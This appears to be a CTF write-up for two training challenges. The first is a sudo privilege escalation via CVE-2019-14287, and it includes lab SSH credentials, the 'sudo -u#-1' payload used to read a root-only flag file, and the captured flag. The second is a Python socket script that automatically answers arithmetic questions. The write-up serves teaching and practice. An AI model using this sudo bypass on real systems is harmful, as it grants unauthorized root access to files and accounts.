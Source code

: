 ## Reader

> Salam jumaat @everyone, here jumaats challenge. It is privilege escalation based on CVE-2019-14287. Feel free to check it out :).
> Privilege escalation is the process by which a user gains elevated access to resources that are normally protected from that user's standard capabilities. This can occur in two main forms:
> Vertical Privilege Escalation: A lower-privileged user gains the permissions of a higher-privileged user, such as a regular user becoming an administrator.
> Horizontal Privilege Escalation: A user gains the permissions of another user with the same privilege level, often to access information or resources they are not authorized to access.
> Privilege escalation can happen due to system vulnerabilities, misconfigurations, or through exploitation of application bugs. It's a critical security issue as it can allow unauthorized users to compromise the entire system or network.
> Creds :
> ssh [ctf-player@ice-training.syamilyusof.com](mailto:ctf-player@ice-training.syamilyusof.com) -p 2222
> Password : verysecure
> Dockerfile : https://drive.google.com/file/d/1dkbyr81Ji2rmwYn6npOGKQPzM-3LE75y/view?usp=drive_link

1. This challenge based on CVE-2019-14287
    
    <aside>
    > 💡 In Sudo before 1.8.28, an attacker with access to run as ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u \#$((0xffffffff))" command.
    
    </aside>
    
2. To solve this challenge first we need to connect to the challenge using ssh
3. Now we can do sudo -l
    
    <aside>
    > 💡 sudo -l command is used to list the commands that a user is allowed to run using 'sudo
    </aside>


```bash
ctf-player@d86f88d61095:~$ sudo -l
Password: 
User ctf-player may run the following commands on d86f88d61095:
    (ALL, !root) /bin/base64
```
    

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/703f9dd9-36fd-453d-93d3-099f508c8cdf/263919ba-ea01-4c27-9f7f-c8006042f8d9/Untitled.png)

1. The `(ALL, !root) /bin/base64` means that user(ctf-player) in this case can run the /bin/base64 command as any user except root. Base64 command can do some encode and decode in base64.
2. Now we can craft our payload to run as user `-u#-1` in this case Sudo treat it as 0 which is root. 
    1. Payload : `sudo -u#-1 base64 /root/flag.txt`
    2. Explanation : This command encodes the contents of `/root/flag` using Base64 encoding as `root` privileges through sudo.
```bash
ctf-player@d86f88d61095:~$ sudo -u#-1 base64 /root/flag.txt
RWFzeSBodWg/IEhlcmUgdGhlIGZsYWcgOiBJQ0V7dGhAbmtmdTExeV90aDFzX0NWRV9hcmVfcEB0
Y2gzZH0K
```
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/703f9dd9-36fd-453d-93d3-099f508c8cdf/cb1b164b-d24d-4164-8af9-b59920c0214a/Untitled.png)
    
3. Now we can decode it using `base64 -d`

```bash
ctf-player@d86f88d61095:~$ sudo -u#-1 base64 /root/flag.txt | base64 -d                                
Easy huh? Here the flag : ICE{th@nkfu11y_th1s_CVE_are_p@tch3d}
```


## Math Genius

```python
import socket

def solve_question(question):
    try:
        # Split the question to extract numbers and operator
        parts = question.strip().split(' ')
        num1 = float(parts[4])
        operator = parts[5]
        num2 = float(parts[6].rstrip('?'))

        # Calculate based on the operator
        if operator == '+':
            return num1 + num2
        elif operator == '-':
            return num1 - num2
        elif operator == '*':
            return num1 * num2
        elif operator == '/':
            return num1 / num2
        else:
            print(f"Unknown operator: {operator}")
            return None

    except (IndexError, ValueError) as e:
        print(f"Error parsing question: {question}")
        print(e)
        return None

def main():
    host = 'ice-training.syamilyusof.com'
    port = 30788

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        try:
            s.connect((host, port))
            welcome_message = s.recv(1024).decode().strip()
            print(welcome_message)  # Welcome message

            s.sendall(b'y\n')
            start_message = s.recv(1024).decode().strip()
            print(start_message)  # Confirmation message

            for i in range(100):
                try:
                    data = s.recv(1024).decode().strip()
                    print(data)  # Print all received data for debugging

                    # Split data to handle multiple lines
                    lines = data.split('\n')

                    for line in lines:
                        if "Question" in line:
                            question = line.strip()
                            print(question)  # Print question for debugging
                            answer = solve_question(question)
                            if answer is not None:
                                s.sendall(f"{answer}\n".encode())
                                response = s.recv(1024).decode().strip()
                                if "Correct" in response:
                                    print("Correct answer received.")
                                else:
                                    print("Unexpected message from server:")
                                    print(response)
                                    return
                            else:
                                print("Failed to parse the question.")
                                return
                        elif "Great! Answer 100 questions correctly to win." in line:
                            continue  # Skip this line, as it's not part of the question
                        elif line.strip() == "":
                            continue  # Skip empty lines
                        else:
                            print("Unexpected message from server:")
                            print(line)
                            return
                except Exception as e:
                    print(f"An error occurred: {e}")
                    return

        except Exception as e:
            print(f"Connection error: {e}")

if __name__ == "__main__":
    main()
```
